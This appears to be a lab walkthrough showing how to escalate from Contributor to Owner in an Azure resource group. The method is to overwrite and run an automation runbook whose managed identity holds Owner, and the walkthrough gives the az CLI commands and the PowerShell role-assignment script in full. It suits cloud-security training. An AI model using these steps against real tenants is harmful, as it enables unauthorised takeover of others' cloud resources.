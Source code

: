 # Objective

Leverage the misconfiguration and escalate privilege to the owner of the resource group.

# Solution

We will have a virtual machine with a contributor role assigned and also an automation account runbook with an owner role assigned. SSH into the VM and list the resources inside the resource group and find the runbook inside the automation account. Update the runbook code with the code to change the virtual machine contributor role to the owner. Thus privilege escalation can be done.

### Login to the virtual machine using the credentials obtained from the config.txt file.

Provide the write permission to the justin.pem file and login to the virtual machine.

```
chmod +600 justin.pem

ssh -i justin.pem justin@40.85.170.40
```

![](https://user-images.githubusercontent.com/65826354/183737316-807e8ff3-cfe8-4cc3-a4db-9e260dea3eb1.png)

### Try to perform az login and check whether we can interact with the resources or not.

```
az login -i
```

![](https://user-images.githubusercontent.com/65826354/183737322-916d1d8e-b8f6-4e6e-8e84-e3fcd7758acf.png)

### List the resources.

```
az resource list
```

![](https://user-images.githubusercontent.com/65826354/183737331-91b0f964-b607-424f-a930-ebc7248eb52f.png)

Look for the name of VM and principal id in the output.

### Check the level of access given to our VM.

```
az role assignment list -g user_blog_app
```

Match the principal id of our VM's identity with the role assignments.

![](https://user-images.githubusercontent.com/65826354/183737337-f2f85115-8e8b-4c45-9002-a5768546b3e1.png)

Now, check the level of access given to our VM

![](https://user-images.githubusercontent.com/65826354/183737343-4a4a5a29-ebc2-43c6-a001-cf34510e20dc.png)

We have a contributor role assigned. We can not perform role assignment operations to escalate our privileges.

### Check the list of resources to find out which resource is associated with the owner-level identity.

In the list of role assignments, we have an Owner role, we will try to map its principalId with the principalId for one of the resources.

![](https://user-images.githubusercontent.com/65826354/184819054-7fedea67-b854-40ef-8035-5b9e389f60b3.png)

![](https://user-images.githubusercontent.com/65826354/183737354-27fdcc60-58ec-45c8-a0c3-b0abf6d459a3.png)

We found an automation account with Owner privileges. 

### Check for the runbooks to perform privileges escalation.

![](https://user-images.githubusercontent.com/65826354/183737359-b9ce3b71-1531-48a8-8ee7-6fc1cc689e91.png)

We found a PowerShellWorkFlow based runbook.

Run: -

```
az automation runbook list --automation-account-name dev-automation-account-test -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)

### Write a PowerShell script.

This code will assign the **Owner** role to the virtual machine.

```
workflow Get-AzureVM
{
    Disable-AzContextAutosave -Scope Process
    $AzureContext = (Connect-Azaccount -Identity -AccountId <Identity-Client-ID>).context
    $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
    New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <VM-Object-ID> -resourceGroupName <ResourceGroup Name>
}
```

![](https://user-images.githubusercontent.com/65826354/183737373-0d4de08c-4782-41e5-947d-7dee0ecf35e1.png)

### Replace, publish and re-start the runbook.

We will replace the content inside the azure runbook, publish it and start it to execute the role assignment code.

```
az automation runbook replace-content --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"

az automation runbook start --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
```

![](https://user-images.githubusercontent.com/65826354/183737393-71783bc1-0d89-4df4-94fc-dfccd7b444c2.png)

### Check the role assignment list.

```
az role assignment list -g user_blog_app
```

![](https://user-images.githubusercontent.com/65826354/183737404-198f7ef3-8b93-4e59-b0dd-05624d7c50c4.png)

Find our VM using the principalId.

![](https://user-images.githubusercontent.com/65826354/183737413-b1df1449-dd20-4ec3-9104-d7d487301fed.png)

The role got changed from contributor to owner.

***Congrats! We successfully escalated the privileges to the owner of the resource group.***
